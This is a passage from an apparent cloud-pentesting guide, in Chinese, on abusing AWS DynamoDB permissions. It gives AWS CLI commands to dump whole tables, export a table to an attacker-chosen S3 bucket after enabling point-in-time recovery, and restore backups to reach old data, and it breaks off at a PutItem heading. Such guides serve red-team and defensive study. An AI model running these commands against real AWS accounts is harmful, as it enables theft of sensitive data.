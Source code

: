 ### `dynamodb:PartiQLSelect`

您可以使用此权限来 **轻松 dump 整个表**。
```bash
aws dynamodb execute-statement \
--statement "SELECT * FROM ProductCatalog"
```
此权限还允许执行类似 `batch-execute-statement` 的操作：
```bash
aws dynamodb batch-execute-statement \
--statements '[{"Statement": "SELECT * FROM ProductCatalog WHERE Id = 204"}]'
```
但是你需要为主键指定一个值，所以这并不是很有用。

**潜在影响：** 通过在表中定位敏感信息实现间接 privesc

### `dynamodb:ExportTableToPointInTime|(dynamodb:UpdateContinuousBackups)`

此权限允许攻击者将**整张表导出到其选择的 S3 bucket**：
```bash
aws dynamodb export-table-to-point-in-time \
--table-arn arn:aws:dynamodb:<region>:<account-id>:table/TargetTable \
--s3-bucket <attacker_s3_bucket> \
--s3-prefix <optional_prefix> \
--export-time <point_in_time> \
--region <region>
```
注意：要使此方法生效，该表必须启用 point-in-time-recovery。你可以使用以下命令检查表是否启用：
```bash
aws dynamodb describe-continuous-backups \
--table-name <tablename>
```
如果它尚未启用，您需要**启用它**，为此您需要**`dynamodb:ExportTableToPointInTime`**权限：
```bash
aws dynamodb update-continuous-backups \
--table-name <value> \
--point-in-time-recovery-specification PointInTimeRecoveryEnabled=true
```
**潜在影响：** 间接 privesc：通过在表中定位敏感信息

### `dynamodb:CreateTable`, `dynamodb:RestoreTableFromBackup`, (`dynamodb:CreateBackup)`

拥有这些权限的攻击者可以 **从备份创建新表**（甚至可以先创建备份，然后在另一个表中恢复）。随后，如果拥有必要的权限，他就可以查看备份中的 **信息**，这些信息**可能不再出现在生产表中**。
```bash
aws dynamodb restore-table-from-backup \
--backup-arn <source-backup-arn> \
--target-table-name <new-table-name> \
--region <region>
```
**Potential Impact:** 通过在表备份中定位敏感信息间接实现 privesc

### `dynamodb:PutItem`
